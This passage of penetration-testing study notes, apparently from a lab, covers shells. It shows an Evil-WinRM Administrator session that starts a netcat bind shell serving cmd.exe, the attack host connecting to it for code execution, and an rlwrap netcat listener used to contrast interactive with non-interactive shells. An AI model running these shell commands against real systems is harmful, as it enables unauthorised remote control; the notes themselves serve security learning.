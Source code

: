 Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

\*Evil-WinRM\* PS C:\Users\Administrator\Documents> nc -lvnp 8080 -r "cmd.exe"

nc.exe : Listening on \[any] 8080 ...

\+ CategoryInfo : NotSpecified: (listening on \[any] 8080 ...:String) \[], RemoteException

\+ FullyQualifiedErrorId : NativeCommandError

connect to \[10.10.2.57] from (UNKNOWN) \[10.12.12.223] 57336

* Connect to newly opened port (listener) from attack host.
  * Gives code execution on target host.

nc 10.10.2.57 8080

Microsoft Windows \[Version 10.0.17763.737]

(c) 2018 Microsoft Corporation. All rights reserved.

whoami

win-shells\administrator

### **Shell Interactivity** <a href="#ntk1zsgvoqy4" id="ntk1zsgvoqy4"></a>

#### **Interactive** <a href="#nrp0zavtbvno" id="nrp0zavtbvno"></a>

* Powershell, Bash, Zsh, sh, or any other standard CLI environment.
* Allows interaction with programs after executing shell.

#### **Non-Interactive** <a href="#mo0ie0bvf7cg" id="mo0ie0bvf7cg"></a>

* Limited to using programs that do not require user interaction to run properly.
* Majority of simple reverse and bind shells.
  * E.g. try to run SSH in a non-interactive shell.

sudo rlwrap nc -lvnp 443

connect to \[127.0.0.1] from (UNKNOWN) \[127.0.0.1] 37104

* whoami (non-interactive) executes perfectly.

whoami

muri

* ssh (interactive) gives no output at all.

ssh muri@localhost

* Interactive programs do not work in non-interactive shells.

### **Netcat** <a href="#ux5udxjwcar3" id="ux5udxjwcar3"></a>
